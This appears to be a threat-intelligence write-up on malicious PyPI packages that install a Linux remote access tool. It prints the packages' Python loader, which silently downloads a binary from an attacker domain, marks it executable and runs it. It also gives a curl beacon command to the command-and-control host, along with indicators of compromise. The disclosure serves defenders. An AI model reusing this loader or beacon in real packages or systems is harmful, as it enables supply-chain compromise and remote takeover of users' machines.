```yaml
---
publishDate: 2024-02-29T00:00:00Z
title: Novel ELF64 Remote Access Tool Embedded in Malicious PyPI Uploads
excerpt: Analyzing a Linux-targeted malware campaign on the Python Package Index.
category: Threat Intelligence
image: ~/assets/images/network-rat.jpg
tags:
  - malware
  - threat intelligence
---
```

## Introduction

On 19 February, Vipyr Security scanning services notified us of a malicious upload to the Python Package Index by the name `real-ids`. This Python package, and subsequent uploads attributed to the same threat actor, contains 'remote access tool' capabilities-- that is, remote code execution, remote file upload and download, and a beaconing service to an HTTPS-based C2.

**Packages:**

- `real-ids@0.0.1` 19 February 2024 @ 01:47 PM UTC
- `real-ids@0.0.2` 19 February 2024 @ 01:52 PM
- `real-ids@0.0.3` 20 February 2024 @ 01:43 AM
- `real-ids@0.0.4` 20 February 2024 @ 02:24 AM
- `real-ids@0.0.5` 20 February 2024 @ 02:30 AM
- `coloredtxt@0.0.1` 20 February 2024 @ 07:27 AM (Benign)
- `coloredtxt@0.0.2` 20 February 2024 @ 08:55 AM
- `beautifultext@0.0.1`20 February 2024 @ 11:17 AM
- `minisound@0.0.1` 21 February 2024 @ 12:51 AM (Benign)
- `minisound@0.0.2` 28 February 2024 @ 12:43 AM

## Analysis

The malicious payload is placed in `os.py` files within typos of popular packages. During the initialization of the file, an import is made from the `os.py` file, executing the payload. Payload occurs in a string of multiple base64/hex encodings, which are decoded and then executed.

```python
platform = sys.platform[0:1]
print(sys.argv[0])
if platform != "w":
    try:
        url = 'hxxps://arcashop.org/boards.php?type=' + platform
        local_filename = os.environ['HOME'] + '/oshelper'
        os.system("curl --silent " + url + " --cookie 'oshelper_session=10237477354732022837433' --output " + local_filename)
        sleep(3) 
        
        os.system("chmod +x " + local_filename) 
        os.system(local_filename + " > /dev/null 2>&1 &")
    except ZeroDivisionError as error:
        sleep(0) 
    finally:
        sleep(0)
```

 Curl is invoked silently with `os.system` and the `--cookie 'oshelper_session=10237477354732022837433` parameter set, and the payload is downloaded from the PyPI Online or Arcashop domain.  Interestingly, the first character of the result of `sys.platform` is passed as a parameter to the API, and will not function if the system is not Linux.

We've noted two endpoints that this malware connects to to obtain the payload:

- `hxxps://pypi.online/cloud.php?type=`
- `hxxps://arcashop.org/boards.php?type=`

This was resistant to many our efforts to download when utilizing mobile, residential, cloud, and business/education VPN tunnels.

Various Python-based payloads have been detected, including encoding the payload itself in base64. This trait was observed with the `pypi.online` endpoint, but not the `arcashop.org` endpoint.

The payload itself is an ELF64 which contains static linking to libcurl as well as several handcrafted functions:

- **XEncoding:** An XOR encryption function with a custom XOR table.
- **AcceptRequest:** Primary means to take payloads from C2.
- **FConnectProxy:** Resolves user parameters for `SendPost` function and time seeds random sources.
- **SendPost:** Primary beacon function with custom user agents.  Also contains user agent information for the request. Attempts to communicate via HTTPS and falls back to HTTP.

The payload itself also contains several functions specifically related to interactions with the C2 itself:

- **Ping:** Send a 'Success' response to C2.
- **MsgDown**: Upload Files
- **MsgUp**: Download Files
- **MsgCmd**: run command with commandline `%s 2>&1 &` and send results back to C2.
- **MsgRun**: run command with commandline `%s 2>&1 &` and do not send results to C2.

```bash
curl -A "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5786.212 Safari/537.36" \ 
-H "Content-Type: application/x-www-form-urlencoded" \ 
-H "Accept: image/gif, image/x-bitmap, image/jpeg, image/pjpeg, application/x-shockwave-flash, */*" \ 
-H "Connection: Keep-Alive" \ 
--data "lkjyhnmiop=????&odldjshrn=????&ikdiwoep=????" \ 
--max-time 300 \ 
-k -v \
"hxxps://jdkgradle.com/jdk/update/check"
```

*Note: The data parameters passed in the POST form data are based on time-seeded random and a parameter the author calls 'tuid' (time-based user ID, presumably).*

The  payload will respond with two codes back to the API:

- `0x89a:` Success
- `0x89b:` Failure

The payload will beacon to `hxxps://jdkgradle.com/jdk/update/check` every 100 seconds to receive commands from the C2.

## Indicators of Compromise (IOCs)

```text
Dropped File Location: ~/oshelper
SHA256 973f7939ea03fd2c9663dafc21bb968f56ed1b9a56b0284acf73c3ee141c053c
MD5 33c9a47debdb07824c6c51e13740bdfe
pypi.online 198.54.115.27
arcashop.org 68.65.120.235
jdkgradle.com 199.188.200.88
```

## Closing Remarks

All packages have been reported to and removed by the Python Package Index administrators. A special thanks to our friends at [Phylum](https://www.phylum.io/) for helping us with the initial payload, security administrators at PyPI for their rapid handling of our reports, and Vipyr Security community contributors for the reversal and analysis of the malicious code.
